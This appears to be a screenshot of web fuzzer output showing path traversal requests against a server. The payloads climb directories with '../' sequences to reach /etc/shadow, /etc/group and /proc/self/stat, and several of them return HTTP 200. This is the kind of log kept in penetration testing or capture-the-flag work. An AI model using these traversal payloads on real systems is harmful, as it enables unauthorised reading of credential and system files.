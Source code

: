 ```
000000054:   500        5 L      37 W       265 Ch      "../../../../../../../../../../../../../../../etc/shadow"                                                                                                                  
000000051:   500        5 L      37 W       265 Ch      "../../../../../../../../../../../../etc/shadow"                                                                                                                           
000000048:   500        5 L      37 W       265 Ch      "../../../../../../../../../etc/shadow"                                                                                                                                    
000000050:   500        5 L      37 W       265 Ch      "../../../../../../../../../../../etc/shadow"                                                                                                                              
000000094:   200        55 L     55 W       761 Ch      "../../../../../../../../../../../../../../../../../etc/group"                                                                                                             
000000093:   200        55 L     55 W       761 Ch      "../../../../../../../../../../../../../../../../etc/group"                                                                                                                
000000095:   200        55 L     55 W       761 Ch      "../../../../../../../../../../../../../../../../../../etc/group"                                                                                                          
000000092:   200        55 L     55 W       761 Ch      "../../../../../../../../../../../../../../../etc/group"                                                                                                                   
000000091:   200        55 L     55 W       761 Ch      "../../../../../../../../../../../../../../etc/group"                                                                                                                      
000000090:   200        55 L     55 W       761 Ch      "../../../../../../../../../../../../../etc/group"                                                                                                                         
000000089:   200        55 L     55 W       761 Ch      "../../../../../../../../../../../../etc/group"                                                                                                                            
000000084:   200        55 L     55 W       761 Ch      "../../../../../../../etc/group"                                                                                                                                           
000000086:   200        55 L     55 W       761 Ch      "../../../../../../../../../etc/group"                                                                                                                                     
000000088:   200        55 L     55 W       761 Ch      "../../../../../../../../../../../etc/group"                                                                                                                               
000000085:   200        55 L     55 W       761 Ch      "../../../../../../../../etc/group"                                                                                                                                        
000000087:   200        55 L     55 W       761 Ch      "../../../../../../../../../../etc/group"                                                                                                                                  
000000083:   200        55 L     55 W       761 Ch      "../../../../../../etc/group"                                                                                                                                              
000000082:   200        55 L     55 W       761 Ch      "../../../../../etc/group"                                                                                                                                                 
000000081:   200        55 L     55 W       761 Ch      "../../../../etc/group"                                                                                                                                                    
000000196:   200        1 L      52 W       311 Ch      "../../../../../proc/self/stat"                                                                                                                                            
000000200:   200        1 L      52 W       311 Ch      "../../../../../../../../../proc/self/stat"                                                                                                                                
```